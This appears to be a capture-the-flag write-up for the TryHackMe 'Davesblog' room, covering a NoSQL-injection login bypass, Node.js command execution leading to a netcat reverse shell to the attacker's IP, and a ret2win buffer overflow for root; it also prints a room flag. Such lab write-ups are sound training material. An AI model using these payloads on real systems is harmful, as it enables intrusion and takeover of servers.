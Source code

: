 <h3> Davesblog TryHackMe </h3>

Difficulty = Hard

Nmap Scan:
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/fe08f1e1-1816-4a36-8e3c-a5a65985d426)

Checking the web server shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e4d01c87-c206-417e-9cfa-1ec50bf94091)

From looking at the web app server builtins we can see this

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/699e3b64-a912-42dc-9981-f07f4bac6a09)

This tells us that the web server is running on Express which is basically NodeJS and also the db is NoSQL

Checking the /admin directory shows a login page
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f349a68b-2136-4aa8-af74-9e247ae4a70e)

Since we don't currently know any cred to use lets try NoSQLi 

I used [this](https://book.hacktricks.xyz/pentesting-web/nosql-injection) to get my payload to be:

```json
{"username": {"$ne": null}, "password": {"$ne": null} }
```

And remember the *Content-Type* should be set to *application/json*

Trying that bypasses the login form
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/046e84e9-57e8-481b-89f1-08b9b76bed54)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/66883af2-ca6e-41be-af4a-263eecd1a4de)

A new cookie is formed and its a jwt token 

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a7d75288-15ec-4e23-8793-f0cf70640399)

Using [jwt.io](https://jwt.io/) I decoded the jwt token and got the first flag
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9e97c9fe-1ad5-4a1a-883b-59e50e80d435)

There's a place which claims to be executing system commands but when i try execute normal commands it doesn't work
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/70d80988-4740-4c49-bbb8-0db576988e65)

Since we know that the web server is build on NodeJs lets execute a NodeJS command
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/98e7ddae-13d6-4554-9f14-c20c612adf99)

```js
(() => { return require("child_process").execSync("whoami;", { timeout: 5000 }); })();
```

Now lets get shell :D

```js
(() => { return require("child_process").execSync("busybox nc 10.2.42.156 1337 -e /bin/bash;", { timeout: 5000 }); })();
```

To stabilize the shell
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/79634295-3ecd-410c-932c-543f9a59b040)

For the next flag we need to interact with the MongoDB hosted locally 

We can check for internal service running on the host
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f2bca12e-0e7b-43a3-b2be-3a6d38039446)

Lets interact with the MongoDB from the target directly
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1267a39c-5188-4027-9579-aeaacabfeba8)

Let us escalate privilege to root now

Checking *sudo -l* shows we can run */uid_checker* as root
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/ecb24c00-ad9c-4387-8297-4df0889b4f4f)

I downloaded the binary to my box for further analysis
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2d6c9d04-c0e6-4256-abc9-7eca510b77f3)

Basic file checks
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/250d9677-1334-4985-8fea-bee0b4091c93)

We're working with a x64 binary which is dynamically linked and not stripped and from the mitigation check we can see that only NX is enabled

Running strings on the binary gives the 4th flag
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b7c152fd-7fa9-46f8-a791-ec2a518e1be3)

Using ghidra I'll do dynamic analysis on the binary

Here's the decompiled main function

```c
void main(void)

{
  int option;
  char buf [72];
  __uid_t uid;
  __gid_t gid;
  
  puts("Welcome to the UID checker!\nEnter 1 to check your UID or enter 2 to check your GID");
  gets(buf);
  option = strcmp(buf,"1");
  if (option == 0) {
    uid = getuid();
    printf("Your UID is: %d\n",(ulong)uid);
  }
  else {
    option = strcmp(buf,"2");
    if (option == 0) {
      gid = getgid();
      printf("Your GID is: %d\n",(ulong)gid);
    }
    else {
      option = strcmp(buf,"THM{runn1ng_str1ngs_1s_b4sic4lly_RE}");
      if (option == 0) {
        puts("Wow! You found the secret function! I still need to finish it..");
      }
      else {
        puts("Invalid choice");
      }
    }
  }
  return;
}
```

Basically it's just a uid and gid checker but we're not interested in that 

We can spot the vulnerability that is the usage of gets() to receive our input

Looking through the function there's a secret function 

Here's it decompiled code

```c
void secret(void)

{
  puts("How did you get here???");
  system("/bin/sh");
  return;
}
```

With this we can tell this is just a ret2win sorta challenge 

All we need to do is to hijack the program execution then make the instruction pointer points to the secret function address

Lets get the offset
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/43eea022-4f96-4eff-b6d8-bfce95d2052d)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/ac6c7fec-e434-4331-b549-69b0807496bd)

Cool the offset is *88*. 

Here's my solve [script](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/thm/davesblog/solve.py)

Running it works locally and creates the payload file
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/096b136b-77db-44b7-b60f-4c1422ce93c6)

I'll transfer the payload to the target
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8a4a1af4-dfcf-4922-8561-d1d325fb5102)

Running the payload on the binary gives shell as root
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/91247418-1de7-4bdf-9034-3661489175c5)

And we're done 👻
